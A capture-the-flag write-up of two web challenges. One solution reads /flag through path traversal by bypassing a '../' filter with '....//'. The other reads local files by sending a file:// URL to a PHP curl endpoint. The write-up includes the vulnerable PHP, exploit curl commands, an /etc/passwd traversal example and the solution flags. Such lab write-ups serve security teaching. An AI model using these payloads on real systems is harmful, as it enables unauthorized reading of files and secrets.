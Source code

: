 # Web Challenges

### Index
___
1. [Web Ministrypalace](#web-ministrypalace)
2. [Web CaaS](#web-caas)

### Web Ministrypalace
___
![](images/web-ministrypalace.png)

There's not much here except the different language options at the top right corner of the page, which are links to the following:
```html
<a href="?lang=en.php">EN</a>
<a href="?lang=qw.php">QW</a>
```

The `index.php` file provided contains the following php snippet:
```php
<?php
$lang = ['en.php', 'qw.php'];
    include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
?>
```
The above php snippet does the following:
1. If the `GET` paramater is empty it loads either `en.php` or `qw.php` at random from the `pages` directory .
2. It tries to prevent a _directory traversal_ attack by replacing `'../'` with an empty string `''`.
    * A _directory traversal_ vulnerability allows an attacker to read an arbitrary file from the target system by specifying its path.
    * eg) `http://target.com/?q=/etc/passwd`
    * the directive `../` is a relative path to the parent directory from the current directory.

We can bypass the filter with `'....//'`, since the first matching `'../'` will get replaced by `''` and the outer `'../'` gets preserved.

Looking at the `Dockerfile` provided, the `flag` is located in the `root` directory of the web app. 
```Dockerfile # Copy challenge files
COPY challenge /www
COPY flag /
```
Now we need to locate the `flag` relative to the `pages` directory. 
```shell
$ find . 2>/dev/null               
.
./build_docker.sh
./challenge
./challenge/index.php
...
./challenge/pages
./challenge/pages/qw.php
./challenge/pages/en.php
./flag
```

We can test our exploit on the local docker instance first with the following command.
```shell
$ curl -s "http://172.17.0.2/?lang=....//....//flag" | grep -oE "CHTB{.*}"
CHTB{f4k3_fl4g_f0r_t3st1ng}
```

Success! Running the same command on the URL provided will gives us the flag.

```Flag = CHTB{b4d_4li3n_pr0gr4m1ng} ```

___

### Web CaaS
___
![](images/web-caas.png)
The website seems to execute a curl command with the host provided. 
![](images/web-caas-invalid.png)
After testing arbitary hostnames the command executes only upon entering a valid URL such as `http://172.17.0.2`.
![](images/web-caas-valid.png)

Let's analyse the source code provided to understand this better.
- index.php
    - It allows is to perform a `GET` or `POST` request to the routes `'/'` and `'/api/curl'` respectively, which in turn execute a method from `CurlController`.

```php
<?php 
date_default_timezone_set('UTC');

spl_autoload_register(function ($name){
    if (preg_match('/Controller$/', $name))
    {
        $name = "controllers/${name}";
    }
    else if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

$router = new Router();
$router->new('GET', '/', 'CurlController@index');
$router->new('POST', '/api/curl', 'CurlController@execute' );

$response = $router->match();

die($response);          
```
- CurlController.php
    - `index()` just routes the user to `index.html` page
    - `execute()` checks if the `ip` parameter of the POST request is set, creates a new command with the url value passed in the request body, excutes it and returns a JSON object. 
```php
<?php
class CurlController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function execute($router)
    {
        $url = $_POST['ip'];

        if (isset($url)) {
            $command = new CommandModel($url);
            return json_encode([ 'message' => $command->exec() ]);
        }
    }
}
```
- CommandModel.php
    - the constructor intialiases the curl command.
    - `exec()` calls the inbuilt php `exec()` function to execute the command.
```php
<?php
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```
Since a valid URL can have many different protocols such `http, https, ftp, file,` etc., we can use the file protocol to retrieve the `flag`.

Once again by looking at the `Dockerfile` provided, the `flag` is located in the `root` directory of the web app. 
```Dockerfile 
# Copy challenge files
COPY challenge /www
# Copy flag
COPY flag /
```

We can test our exploit on the local docker instance first by running the following command.
```shell
$ curl -X POST -F "ip=file://localhost/flag" "http://172.17.0.2/api/curl" | grep -oE "CHTB{.*}"
CHTB{f4k3_fl4g_f0r_t3st1ng}
```

Success! Running the same command on the URL provided will gives us the flag.

```Flag = CHTB{f1le_r3trieval_4s_a_s3rv1ce}```
